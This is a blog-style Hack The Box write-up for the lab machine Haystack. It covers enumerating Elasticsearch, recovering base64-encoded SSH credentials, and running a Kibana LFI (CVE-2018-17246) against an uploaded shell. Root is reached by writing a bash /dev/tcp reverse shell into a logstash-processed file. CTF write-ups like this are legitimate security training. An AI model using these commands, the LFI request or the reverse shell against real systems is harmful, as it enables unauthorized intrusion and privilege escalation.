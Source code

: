 +++
author = "Nick"
categories = ["CTF", "NetSec", "Linux", "ELK", "reverse shell", "api", "netcat"]
date = 2019-11-02T15:51:17Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info-1.png"
slug = "hack-the-box-haystack"
summary = "Welcome back! Today we are doing the machine Haystack on Hack the Box. Lets jump in!"
tags = ["CTF", "NetSec", "Linux", "ELK", "reverse shell", "api", "netcat"]
title = "Hack The Box - Haystack"

+++


Welcome back! Today we are doing the machine Haystack on Hack the Box. Lets jump in!

As usual, we start off with a standard nmap scan ``` nmap -sC -sV -oA ./haystack_scan 10.10.10.115 ``` 

We get back a small amount of results.
```
Nmap scan report for 10.10.10.115
Host is up (0.12s latency).
Not shown: 997 filtered ports
PORT     STATE      SERVICE VERSION
22/tcp   unfiltered ssh
80/tcp   unfiltered http
9200/tcp unfiltered wap-wsp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.53 seconds
```

The first things we'll do is take a peek at what's running on port 80. When we browse to it we get a picture of a needle... in a haystack. Awesome. Nothing really in the source and nothing crazy about the image either. We'll run a quick dirbuster against the page and see what comes back.

To do that we'll run ```dirb http://10.10.10.115/ /usr/share/wordlists/dirb/common.txt ```This will just check for what might there. Once this comes back maybe we'll run it again looking for .html, .php and other file types.

While that runs, we curl port 9200 and we get back some json from an Elasticsearch install. Which means that Elasticsearch REST API is listening on this port. We can probably use this to run some queries.

First we'll try to get the list of indices, keeping in mind I'm working on the free labs these results tend to vary. We'll head over to the browser on port 9200 and simply use the '_cat/indices?v' on our url to list them.

![](/images/2019/08/image-2.png)

We see our standard .kibana index as well as quotes and bank. Lets get the content of these. We can do it in two ways. The first is by just putting our query into the browser. The second is by using curl. We'll craft our request by using the [Elasticsearch documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/docs.html). We want to target the quotes index first. So we'll use the search function and the size parameter to get the contents of the index. ```curl -H 'Content-Type: application/json' -X GET 'http://10.10.10.115:9200/quotes/_search/?size=500&pretty'``` We use the ?size parameter to specify the size, in this case we'll use 500 since we know there are 253 entries. The &pretty on the end simply formats the JSON in a standard fasion. Once we send the request we get back a ton of data. We'll pipe the data out to a text file for saving: ```curl -H 'Content-Type: application/json' -X GET 'http://10.10.10.115:9200/quotes/_search/?size=500&pretty' > quotes.txt```

Once we open the file, we see just about everything is in Spanish. However, before we translate it, we'll simply page through it for anything that might stick out.

![](/images/2019/08/image-3.png" caption="Hmmm... 'I have to save the password for the machine')

This is base64 encoding, so it's unlikley that this string is the password however it does decode to 'user: security'. So we have a username but what about a password? As we keep skimming through the data, we find another:

![](/images/2019/08/image-4.png" caption="'This key cannot be lost, I keep it here')

This decodes to pass: spanish.is.key. Well it seems we have a username / password combination, lets see if SSH is going to work for us. Sure does!

![](/images/2019/08/image-5.png)

Next thing we'll do is run LinEnum to see what we're working with. We'll start up a python server with ```python -m SimpleHTTPServer``` and download our LinEnum script to a tmp directory. Once we have the output we can parse it for anything that could let us escalate. I didn't really see much aside from a user named kibana with no logon services. Some quick googling around leads us to this [Kibana LFI](https://github.com/mpgn/CVE-2018-17246). Great, time to read up on it and see if we can get it to work. The first thing we need to do is check which port the backend service is running on, which by default is 5601 To do that we can look at the kibana.yml. So we issue ```cat /etc/kibana/kibana.yml | grep 5601 -n1```

![](/images/2019/08/image-6.png)

Sure enough, default port. Before we can launch the LFI we need to upload a shell. In this case, we'll use the one provided in the github. Now that we've created shell.js we can run this LFI against it using cURL. ``` curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../tmp/1/shell.js' ```

![](/images/2019/08/image-7.png)

Our netcat session lights up and we have a connection back as kibana. Now we're going to want to spawn a proper terminal session. We do this by making python do our work for us: ```python -c 'import pty; pty.spawn("/bin/sh")' ```. We now have an upgraded account, kibana. Lets run LinEnum again and see what we get back.

It finishes running and we see that we have write access to /opt/kibana/ which is new. So now what? We do some research on how kibana functions and we notice that we have access to read the files in /etc/logstash/conf.d where we didn't before. This is great, now we can see how logstash rules are being processed. After viewing the input.conf file, it seems pretty clear.

![](/images/2019/08/image-9.png)

We create a file in /opt/kibana/ with the prefix of logstash_. This file will run our commands. However, to do this, we need to understand Grok. Lucky for us there is an online tool to help us out. Grok Online Debugger. So what we need to do is take the Grok pattern from the filter and apply it. Then we can issue the commands and see what we get. So in this case we're going to echo our command into that file. Netcat doesn't seem to run as this user, so we'll bash redirecting.

We'll use the following ```echo "Ejecutar  comando: bash -i >& /dev/tcp/10.10.15.125/1234 0>&1" > /opt/kibana/logstash_1.txt``` A quick break down of the command is we are telling the filter to do the command. 'bash -i' creates and interactive shell session. The '>& /dev/tcp/10.10.15.125/1234' redirects that to a system TCP socket and the '0>&1' connects the standsard input to a standard output. Giving us a shell session. Now that we've executed the above command, we just wait for the rules to fire off and we get root!

![](/images/2019/08/image-8.png)

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).





